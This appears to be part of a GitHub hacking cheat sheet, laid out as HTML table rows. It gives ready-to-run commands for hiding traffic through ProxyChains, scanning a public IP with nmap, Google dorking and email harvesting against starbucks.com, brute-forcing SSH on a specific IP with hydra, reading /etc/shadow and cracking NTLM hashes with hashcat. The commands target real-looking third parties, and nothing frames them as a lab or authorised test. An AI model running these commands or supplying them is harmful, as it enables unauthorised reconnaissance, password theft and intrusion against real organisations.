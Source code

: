 <tr>
<th>Hide yourself</th>
<td>hide yourself with ProxyChains<br /></td>
<td>
$ locate proxychains <br />
$ sudo vi /etc/proxychains.conf (uncomment 'dynamic_chain' for dynamic proxies, change socks4 ip port or https ip port) <br />
$ proxychains firefox google.com <br />
$ proxychains nmap -sT -p 80,443 217.160.0.69 <br />
<br /></td>
</tr>

<tr>
<th>hacking with gsearch</th>
<td>Hacking with Google Search - dorking<br /></td>
<td>
> frenchpress site: starbucks.com <br />
> site:starbucks.com inurl:admin <br />
> site:starbucks.com intext:admin <br />
> site:starbucks intitle: login <br />
> site:starbucks.com filetype:pdf <br /><br />

Google Hacking Database : [GHD](https://www.exploit-db.com/google-hacking-database) <br />
$ theHarvester -d starbucks.com -b google (find emails and respective ip addresses)<br />
$ theHarvester -d starbucks.com -b netcraft (lot more information)<br />
<br /></td>
</tr>


</table>

### Hacking with Linux:


<table style="width:100%" >

<tr>
<th>command</th>
<th>description <br /></th>
<th>reference <br /></th>
</tr>

<tr>
<th>Hacking password with Hashcat</th>
<td>crack with hydra and hashcat<br /></td>
<td>
$ cd /usr/share/wordlists <br />
$ sudo gzip -d rockyou.txt.gz (14 mil passwords) <br />
$ sudo hydra -l "username" -P wordlist.txt \ (dictionary brute force attack - RockYou.txt) <br />
> 45.79.49.74 ssh (firewalls might block this)<br />
$ cat wordlist.txt (my custom wordlist) <br />
$ cat /etc/shadow (hashes - MD5, SHA 256 , NTLM etc)<br />
$ man hashcat <br />
$ sudo hashcat -a 0 -m 1000 -o crackedpass.txt \ <br />
> hashes.txt wordlist.txt  (1000 for NTLM - Windows based attacks)<br />
$ sudo hashcat -a 0 -m 1000 -o crackpass.txt \ <br />
"1CAGHKLGSGIUGS" wordlist.txt <br />
$ sudo cat crackpass.txt (output / result)<br />
<br /></td>
</tr>
